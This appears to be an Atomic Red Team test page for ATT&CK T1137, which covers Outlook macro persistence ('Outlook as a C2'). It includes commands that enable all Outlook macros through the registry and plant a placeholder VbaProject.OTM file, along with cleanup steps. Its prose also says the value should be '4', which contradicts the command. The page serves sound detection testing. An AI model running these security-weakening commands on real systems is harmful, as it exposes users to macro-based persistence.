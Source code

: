 # T1137 - Office Application Startup
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137)
<blockquote>Adversaries may leverage Microsoft Office-based applications for persistence between startups. Microsoft Office is a fairly common application suite on Windows-based operating systems within an enterprise network. There are multiple mechanisms that can be used with Office for persistence when an Office-based application is started; this can include the use of Office Template Macros and add-ins.

A variety of features have been discovered in Outlook that can be abused to obtain persistence, such as Outlook rules, forms, macros and Home Page.(Citation: SensePost Ruler GitHub) These persistence mechanisms can work within Outlook or be used through Office 365.(Citation: TechNet O365 Outlook Rules)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Office Application Startup - Outlook as a C2](#atomic-test-1---office-application-startup---outlook-as-a-c2)


<br/>

## Atomic Test #1 - Office Application Startup - Outlook as a C2

As outlined in MDSEC's Blog post https://www.mdsec.co.uk/2020/11/a-fresh-outlook-on-mail-based-persistence/ 
it is possible to use Outlook Macro as a way to achieve persistance and execute arbitrary commands in the user context. This transform Outlook into a C2 execution method.
To achieve this two things must happen on the system:
- The macro security registry value must be set to '4'
- A correctly formatted file called VbaProject.OTM must be created in the Outlook Folder.

Note: There are a variety of options possible for the Macro security setting. These are:
```
4 = Disable all macros without notification
3 = Notifications for digitally signed macros, all other macros disabled
2 = Notifications for all macros
1 = Enable all Macros
```

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security\Level" /t REG_DWORD /d 1 /f
mkdir  %APPDATA%\Microsoft\Outlook\ >nul 2>&1
echo "Atomic Red Team TEST" > %APPDATA%\Microsoft\Outlook\VbaProject.OTM
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security\Level" /f
del %APPDATA%\Microsoft\Outlook\VbaProject.OTM
```





<br/>
